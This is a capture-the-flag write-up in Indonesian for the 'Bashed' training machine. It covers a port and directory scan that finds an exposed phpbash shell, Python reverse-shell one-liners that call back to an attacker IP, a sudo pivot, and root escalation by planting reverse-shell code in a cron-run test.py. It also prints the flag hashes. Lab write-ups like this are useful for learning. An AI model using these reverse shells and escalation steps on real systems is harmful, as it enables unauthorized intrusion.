 
| PORT | STATE | SERVICE | VERSION                       |
|------|-------|---------|-------------------------------|
| 80/tcp | open  | http    | Apache httpd 2.4.18 (Ubuntu) |


# Exploit

|   Status | Size | Words | Lines | Duration | URL          |
|---------:|-----:|------:|------:|---------:|-------------:|
|      301 |  311 |    20 |    10 |       85 | /images      |
|      301 |  312 |    20 |    10 |       96 | /uploads     |
|      301 |  308 |    20 |    10 |      186 | /php         |
|      301 |  308 |    20 |    10 |      176 | /css         |
|      301 |  308 |    20 |    10 |       86 | /dev         |
|      301 |  307 |    20 |    10 |      108 | /js          |
|      301 |  310 |    20 |    10 |       76 | /fonts       |


```url
http://10.10.10.68/dev/phpbash.php
```

nah di sini kita bisa melakukan apapun dengan bash, untuk reverse shell kita bisa menggunakan python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```


# User FLAG

```bash
(remote) www-data@bashed:/home/arrexel$ cat user.txt 
9eb57838741812adf7e5f70158845282
```

# ROOT FLAG

```bash
 sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

```bash
(remote) www-data@bashed:/home/scriptmanager$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:~$ 
```

```bash
2024/06/23 02:50:01 CMD: UID=0     PID=1969   | python test.py 
```

tambahkan code python ini ke file test.py, yang ada di folder /scripts
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```

dan nyalakan reverse shell, dan juga gunakan pspy64

**ROOT FLAG**
```bash
(remote) root@bashed:/root# cat root.txt 
6b2c3cd6939c734638ee0ecefe46bae8
```